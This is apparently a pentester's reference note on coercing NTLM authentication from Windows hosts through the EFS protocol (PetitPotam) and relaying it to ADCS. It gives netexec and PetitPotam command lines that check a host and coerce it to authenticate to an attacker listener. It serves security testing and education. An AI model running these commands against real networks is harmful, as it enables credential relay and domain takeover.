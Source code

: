 ```yaml
---
title: NTLM Relay from EFS
---
```


[[notes/ad/ntlm-relay-source]] as domain user from clients and servers trough [[notes/network/msrpc]] *Encrypting File System Remote Protocol* ([MS-EFSR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/)).
For systems vulnerable to PetitPotam aka [CVE-2022-26925](https://www.opencve.io/cve/CVE-2022-26925) coercion is possible as unauthenticated user.

The classic PetitPotam attack relays a DC machine account to the [[notes/ad/adcs-esc8|ADCS Web Enrollment endpoint]].

Check if a computer is vulnerable to PetitPotam.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec smb dc01.corp.local -d corp.local -u jdoe -p 'passw0rd' -M petitpotam
    ~~~

[[notes/ad/ntlm-relay-from-smb|Coerce authentication from SMB]].

=== "[[notes/tools/petitpotam|PetitPotam.py]]"
    ~~~ bash
    ./PetitPotam.py -pipe all -d corp.local -u jdoe -p passw0rd $lhost dc01.corp.local
    ~~~

=== "[[notes/tools/petitpotam|PetitPotam.exe]]"
    ~~~ bat
    .\PetitPotam.exe $lhost dc01.corp.local
    ~~~

[[notes/ad/ntlm-relay-from-webdav|Coerce authentication from WebDAV]].

=== "[[notes/tools/petitpotam|petitpotam.py]]"
    ~~~ bash
    ./PetitPotam.py -pipe all -d corp.local -u jdoe -p passw0rd pentestpc@8080/path ws01.corp.local
    ~~~

=== "[[notes/tools/petitpotam|petitpotam.exe]]"
    ~~~ bat
    .\PetitPotam.exe pentestpc@8080/path ws01.corp.local
    ~~~

This technique is also implemented in [[notes/tools/coercer]].

References:

- [ADCS plus PetitPotam NTLM relay](http://web.archive.org/web/20221006093854/https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/adcs-+-petitpotam-ntlm-relay-obtaining-krbtgt-hash-with-domain-controller-machine-certificate)
- [PetitPotam - NTLM relay to ADCS](https://pentestlab.blog/2021/09/14/petitpotam-ntlm-relay-to-ad-cs/)

